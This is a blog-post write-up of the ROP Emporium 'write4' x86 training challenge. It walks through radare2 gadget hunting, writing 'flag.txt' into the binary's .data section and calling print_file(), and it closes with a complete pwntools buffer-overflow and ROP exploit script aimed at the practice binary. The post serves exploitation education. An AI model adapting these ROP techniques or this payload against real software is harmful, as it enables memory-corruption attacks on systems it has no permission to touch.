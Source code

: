 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x86)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium challenge-4
tags: rop-emporium write4 x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

> This is what a hint will look like!
{: .prompt-tip }

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to find this value see the
[first writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
for this series.

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x86-useful-gadgets.png)

The `mov` instruction will set the value from
`ebp` (4 byte qword) into the dereferenced address 
set in `edi`. This is what we'll use to write to memory!
The gadget address is `0x08048543`

### Mov Arguments
> Find a gadget to control `edi` and `ebp` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `edi` and
`ebp` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop edi
```

![mov args gadget](/images/write4/x86-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop ebx` and `pop esi` instructions 
entirely! The address we'll use to set `edi` and 
`ebp` is `0x080485aa`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `ebp`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x86-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x0804a018`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> `pop`s any register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x86-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x080483d0`

Now we need to set the first argument to this function.
According to the
[x86 calling convention](https://aaronbloomfield.github.io/pdr/book/x86-32bit-ccc-chapter.pdf){:target="_blank"}{:rel="noopener noreferrer"},
function arguments are passed through the stack. Remember
from the
[callme challenge]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
that we'll need to set a `pop` gadget as a function's return
address to keep the stack maintained for additional function
calls. We can just use the `pop` gadget we found earlier!

![pop gadget](/images/write4/x86-mov-args-gadget.png)

Since we only want to `pop` one argument off of the
stack we can just execute `pop ebp`. This makes our
gadget address `0x080485ab`

Here's a reusable function to add arguments to the stack
in `x86`
```python
#!/bin/python3
from pwn import *

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload
```

## Exploit
We finally have everything to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x08048543   # mov qword [edi], ebp
pop_edi_ebp = 0x080485aa
data_addr = 0x0804a018
print_file_addr = 0x080483d0
pop_ebp = 0x080485ab

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload

# create payload
payload = b'A' * 44

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p32(print_file_addr)
payload += add_args([data_addr])

# send payload + receive flag
io = process('./write432')
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x86-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[Next Challenge (badchars)]({% post_url 2024-06-05-rop-emporium-badchars-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[write4 x64]({% post_url 2024-06-03-rop-emporium-write4-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
